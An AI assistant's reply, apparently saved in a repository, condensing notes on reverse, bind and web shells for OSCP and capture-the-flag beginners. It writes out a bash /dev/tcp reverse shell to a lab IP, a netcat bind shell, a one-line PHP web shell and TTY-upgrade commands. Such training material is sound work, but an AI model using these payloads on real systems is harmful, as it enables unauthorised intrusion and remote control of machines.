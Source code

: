 


Absolutely! Here's a **simplified and digestible version** of your notes on **Types of Shells**, perfect for OSCP/CPTS/CTF beginners. Clear and to the point:

---

# 🐚 Types of Shells (Simplified)

When you hack into a machine, you want a way to **keep control** without running the exploit every time. That’s where **shells** come in. A shell gives you command-line access to the target.

---

## 1. 🔁 **Reverse Shell**

- The **target connects back to you**.
    
- You start a **listener** on your machine (e.g., with Netcat).
    
- You run a command on the victim that sends a connection to your listener.
    

### 🛠 Steps:

1. On your machine:
    

```bash
nc -lvnp 1234
```

2. On the target (Linux example):
    

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

3. You now control the target!
    

💡 Reverse shells are common and quick, but **lose connection if interrupted**.

---

## 2. 📡 **Bind Shell**

- The **target listens on a port**.
    
- You connect to it with Netcat.
    

### 🛠 Steps:

1. On the target (Linux):
    

```bash
nc -lvp 1234 -e /bin/bash
```

2. On your machine:
    

```bash
nc <target-ip> 1234
```

💡 Bind shells are stable — if you lose the connection, just reconnect.

⚠️ Doesn’t work if firewalls block incoming connections.

---

## 3. 🌐 **Web Shell**

- A small script on the web server that **runs your commands**.
    
- You send commands using a browser or cURL.
    

### 🛠 Example (PHP):

```php
<?php system($_GET["cmd"]); ?>
```

Put it in:

```
/var/www/html/shell.php
```

Access in browser:

```
http://<ip>/shell.php?cmd=id
```

💡 Web shells **stay after reboot**, and **work even behind firewalls**.

⚠️ Not interactive — you have to send a new URL every time you want to run a command.

---

## 🧼 Clean Up Your Shell (TTY Upgrade)

When you get a shell (especially via Netcat), it might be **limited** (no arrow keys, tab, etc.).

### 🛠 Fix it:

1. On the shell:
    

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

2. Press `Ctrl + Z` to pause the shell.
    
3. On your machine:
    

```bash
stty raw -echo
fg
[Enter]
```

4. (Optional) Fix screen size:
    

```bash
export TERM=xterm-256color
stty rows 30 columns 120
```

Now you have a full-featured shell!

---

## ✅ Quick Recap

|Type|Who connects?|Best for|Downside|
|---|---|---|---|
|Reverse Shell|Target → You|Quick access|Breaks if connection drops|
|Bind Shell|You → Target|Reconnectable|Blocked by firewalls|
|Web Shell|Browser → Web script|Firewalled environments|Not interactive|

---

Would you like me to turn this into a visual cheat sheet or a printable one-page summary?